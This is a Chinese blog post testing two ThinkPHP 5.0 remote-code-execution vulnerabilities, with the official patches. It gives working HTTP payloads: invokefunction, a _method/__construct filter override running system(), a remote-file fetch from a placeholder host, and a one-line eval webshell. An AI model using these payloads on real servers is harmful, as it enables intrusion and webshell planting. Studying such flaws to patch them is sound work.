


# ThinkPHP5.0 漏洞测试

> 自从ThinkPHP发布漏洞补丁以来，服务器不知道多少次受到了批量扫描漏洞来抓取肉鸡的请求
> 虽然官方早已发布补丁，还是想试一下TP漏洞，测试两个漏洞

## 一、全版本执行漏洞

```xml
<!-- GET -->
http://127.0.0.1/ThinkPHP/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```
由于对控制器名没有明确的检测，在没有开启强制路由的情况下，直接就可以执行phpinfo()，如果服务器未限制shell等函数的执行，便可以直接执行shell提权



详细的漏洞执行过程可以参考 [漏洞执行过程](https://www.cnblogs.com/st404/p/10245844.html)

##### 官方补丁
加入正则表达式来限制控制器名
```php
/* /thinkphp/library/think/App.php 555行 加入 */
if (!preg_match('/^[A-Za-z](\w)*$/', $controller)) {
     throw new HttpException(404, 'controller not exists:' . $controller);
}
```


## 二、_method漏洞

```xml
<!-- POST -->
http://127.0.0.1/ThinkPHP/index.php?s=captcha
<!-- Headers -->
Content-Type:application/x-www-form-urlencoded
<!-- Body -->
_method=__construct&filter[]=system&method=GET&get[]=dir
```
_触发条件_

```php
//Config.php
'var_method'             => '_method'
```

利用`$_POST['_method']`变量来传递真实的请求方法，当`$_POST['_method']=__construct`时，Request类的method方法便会将该类的变量进行覆盖，利用该方式将filter变量覆盖为system等函数名，当内部进行参数过滤时便会进行执行任意命令



基于此可以直接上传PHP文件 test.php
```xml
<!-- POST -->
http://127.0.0.1/ThinkPHP/index.php?s=captcha&fileDown=copy("http://xxx/1.txt","test.php")
<!-- Headers -->
Content-Type:application/x-www-form-urlencoded
<!-- Body -->
_method=__construct&filter=assert&method=get&server[REQUEST_METHOD]=fileDown
```
生成一句话木马
```xml
<!-- POST -->
http://127.0.0.1/ThinkPHP/index.php?s=captcha&T=echo+^<?php+phpinfo();eval($_POST[cmd]);?^>+>>info.php
<!-- Headers -->
Content-Type:application/x-www-form-urlencoded
<!-- Body -->
_method=__construct&filter=system&method=get&server[REQUEST_METHOD]=123
```

可以在config.php将_method设置为其他字符，或者升级TP

##### 官方补丁
官方补丁中限制了_method可疑设置的请求方法，并在处理_method之后将其unset，无法再利用__construct进行变量覆盖

```php
/* thinkphp/library/think/Request.php */
 public function method($method = false)
    {
        if (true === $method) {
            // 获取原始请求类型
            return IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);
        } elseif (!$this->method) {
            if (isset($_POST[Config::get('var_method')])) {
                $method = strtoupper($_POST[Config::get('var_method')]);
                if (in_array($method, ['GET', 'POST', 'DELETE', 'PUT', 'PATCH'])) {
                    $this->method = $method;
                    $this->{$this->method}($_POST);
                } else {
                    $this->method = 'POST';
                }
                unset($_POST[Config::get('var_method')]); //unset
            } elseif (isset($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE'])) {
                $this->method = strtoupper($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE']);
            } else {
                $this->method = IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);
            }
        }
        return $this->method;
    }
```

> 参考文章：
> https://www.cnblogs.com/st404/p/10245844.html
> https://mrxn.net/Infiltration/618.html
> https://www.cnblogs.com/nul1/p/11863574.html
> https://www.vulnbug.com/amp/thkphp5x-code-execution-vulnerabilities-and-bypass.html
> https://www.freebuf.com/vuls/194127.html
